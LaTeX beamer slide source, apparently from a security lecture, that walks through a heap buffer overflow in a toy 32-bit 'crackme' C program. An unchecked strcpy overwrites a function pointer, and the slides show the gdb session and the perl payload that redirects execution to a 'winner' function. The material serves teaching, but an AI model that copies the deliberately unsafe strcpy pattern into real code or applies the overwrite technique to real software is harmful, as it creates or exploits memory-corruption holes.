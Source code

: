 \documentclass[9pt,aspectratio=169]{beamer}
\begin{document}
\begin{frame}[label={sec:orgac4a5b1},fragile]{Example time}
 \begin{columns}
\begin{column}[t]{0.49\columnwidth}
32-bit Linux, no ASLR.  Make it print \emph{"You win"} instead of \emph{"You lose"}\ldots{}

\begin{lstlisting}[language=C,numbers=none]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

struct data { char name[64]; };
struct fp { int  (*fp)(); };

int winner() { return printf("You win\n"); }
int nowinner() { return printf("You lose\n"); }

int main(int argc, char *argv[]) {
  struct data *d;
  struct fp *f;
\end{lstlisting}
\end{column}
\begin{column}[t]{0.49\columnwidth}
\begin{lstlisting}[language=C,numbers=none]
  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  printf("data is at %p\nfp is at %p\n", d, f);

  f->fp = nowinner;
  strcpy(d->name, argv[1]);
  f->fp();

  return 0;
}
\end{lstlisting}
\end{column}
\end{columns}
\end{frame}
\begin{frame}[label={sec:org21ca6fa},fragile]{Attack Start}
 \begin{lstlisting}[language=shell,numbers=none]
$ ./crackme hello
data is at 0x8db8008
fp is at 0x8db8050
You lose

$ nm ./crackme | grep winner
080484b4 T nowinner
0804849b T winner

$ gdb ./crackme
(gdb) run $(perl -e 'print "A"x128')
Starting program: /home/user/crackme $(perl -e 'print "A"x128')
data is at 0x804b008
fp is at 0x804b050

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ??()
\end{lstlisting}

Anyone want to solve it?
\end{frame}
\begin{frame}[label={sec:org6698d49},fragile]{Attack Complete}
 \begin{lstlisting}[language=shell,numbers=none]
$ gdb ./crackme
(gdb) run $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')
Starting program: /home/user/crackme $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')

data is at 0x804b008
fp is at 0x804b050
You win!
[Inferior 1 (process 1652) exited normally]
\end{lstlisting}
\end{frame}
\end{document}
